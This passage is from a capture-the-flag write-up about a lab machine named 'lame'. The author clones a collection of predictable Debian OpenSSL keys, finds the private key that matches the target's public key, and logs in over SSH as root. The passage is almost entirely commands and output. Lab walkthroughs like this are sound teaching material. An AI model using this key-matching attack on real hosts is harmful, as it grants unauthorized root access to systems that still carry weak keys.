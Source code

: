 I’ll clone [g0tmi1k’s GitHub repo](https://github.com/g0tmi1k/debian-ssh) for this vulnerability, and go into that directory, and unpack the common RSA keys:

```

root@kali:/opt# git clone https://github.com/g0tmi1k/debian-ssh
Cloning into 'debian-ssh'...
remote: Enumerating objects: 35, done.
remote: Total 35 (delta 0), reused 0 (delta 0), pack-reused 35
Unpacking objects: 100% (35/35), 439.59 MiB | 6.72 MiB/s, done.
root@kali:/opt# cd debian-ssh/
root@kali:/opt/debian-ssh# ls
common_keys  our_tools  README.md  uncommon_keys
root@kali:/opt/debian-ssh# cd common_keys/
root@kali:/opt/debian-ssh/common_keys# ls
debian_ssh_dsa_1024_x86.tar.bz2  debian_ssh_rsa_2048_x86.tar.bz2
root@kali:/opt/debian-ssh/common_keys# tar jxf debian_ssh_rsa_2048_x86.tar.bz2

```

Now I’ll use `grep` with `-lr` for recurrsive to just display the filename with the public key, and it finds it:

```

root@kali:/opt/debian-ssh/common_keys/rsa/2048# grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== *.pub
57c3115d77c56390332dc5c49978627a-5429.pub

```

I can use the matching private key to SSH to the box as root:

```

root@kali:/opt/debian-ssh/common_keys/rsa/2048# ssh -i 57c3115d77c56390332dc5c49978627a-5429 root@10.10.10.3
Last login: Tue Apr  7 10:33:18 2020 from :0.0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
id
root@lame:~# id
uid=0(root) gid=0(root) groups=0(root)

```

